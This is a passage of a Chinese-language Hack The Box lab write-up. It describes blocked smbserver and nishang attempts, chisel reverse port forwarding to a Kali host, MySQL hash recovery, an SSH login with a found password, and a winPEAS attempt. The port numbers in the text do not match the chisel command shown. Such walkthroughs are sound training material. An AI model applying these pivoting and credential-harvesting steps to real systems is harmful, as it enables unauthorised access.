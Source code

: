 smbserver好像失败了：

![](/htb_img/WEBRESOURCE4e5840e3c3f693efbf2d81ed2613ce4bimage.png)

那就nishang powershell：

妈的，服了，还有检测，拦截了

![](/htb_img/WEBRESOURCE48110175f2f21ca900e8cce7ce0a791cimage.png)

# 提权

这里的思路，大概如下：

1、登录mysql

2、信息收集

先看第一个把：

这个功能要实现，需要端口转发：

kali执行：

./chisel server -p 6666 --reverse

![](/htb_img/WEBRESOURCE9b85a25eca3841563e2ea4965ca28323image.png)

windows执行：

./chisel.exe client -v 10.10.16.5:6666 R:0.0.0.0:1234:127.0.0.1:1234

![](/htb_img/WEBRESOURCE8a30e52381857804b48c370dc10ce25eimage.png)

这样，windows的3306就映射到了kali的8888端口：

发现密码hash：

![](/htb_img/WEBRESOURCE74860ea6e9c101153538096301935712image.png)

但是爆破不出来：

![](/htb_img/WEBRESOURCE37f3517fb2b12c259a005d66d2a2556aimage.png)

呐只能接着看了：

最后在这里发现密码：

![](/htb_img/WEBRESOURCE187b034fa43eab81c28555bb8262caa1image.png)

通过ssh直接登录：

![](/htb_img/WEBRESOURCEb206d7a490d1e6fd4bc6ec8ec4660c86image.png)

上winpeass:

好像不给运行：
